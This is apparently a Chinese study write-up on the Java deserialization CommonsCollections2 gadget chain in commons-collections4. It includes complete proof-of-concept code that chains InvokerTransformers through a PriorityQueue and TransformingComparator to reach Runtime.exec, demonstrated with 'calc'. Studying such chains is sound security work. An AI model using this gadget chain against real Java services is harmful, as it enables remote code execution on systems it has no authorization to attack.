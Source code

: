 # 前言

学习自《Java安全漫谈 - 16.commons-collections4与漏洞修复》。学习了一波CC2。学完这个就继续去JavaWeb了。JavaWeb看个1星期就爬取背马原，看概率论了。



# 预备知识

之前所分析的CC链都是基于CommonsCollections3.2.1及其之前的版本。去maven仓库搜索一下的话，就会发现存在两个CommonsCollections：

![image-20210827233421785]([Java反序列化]CommonsCollections2利用链学习.assets/image-20210827233421785.png)



一个包名是`org.apache.commons.collections4`，另外一个是`org.apache.commons.collections`。主要原因如下：

> 在2015年底commons-collections反序列化利⽤链被提出时，Apache Commons Collections有以下两 个分⽀版本： commons-collections:commons-collections org.apache.commons:commons-collections4 可⻅，groupId和artifactId都变了。前者是Commons Collections⽼的版本包，当时版本号是3.2.1；后 者是官⽅在2013年推出的4版本，当时版本号是4.0。那么为什么会分成两个不同的分⽀呢？ 官⽅认为旧的commons-collections有⼀些架构和API设计上的问题，但修复这些问题，会产⽣⼤量不能 向前兼容的改动。所以，commons-collections4不再认为是⼀个⽤来替换commons-collections的新版 本，⽽是⼀个新的包，两者的命名空间不冲突，因此可以共存在同⼀个项⽬中。



 所以，CC2就是一条专门用来应用于`CC 4.0`版本的新链子。

至于`CC 3.x`版本的链子是否仍然可以在4.0版本中使用，本文就不作探讨了，经过学习，是可以的，唯一需要更改的地方就是`LazyMap`的`decorate()`方法，改名成了`lazyMap()`。

链子如下：

```java
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);


        SerializeUtil.setFieldValue(chainedTransformer,"iTransformers",trueTransformers);

        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);

```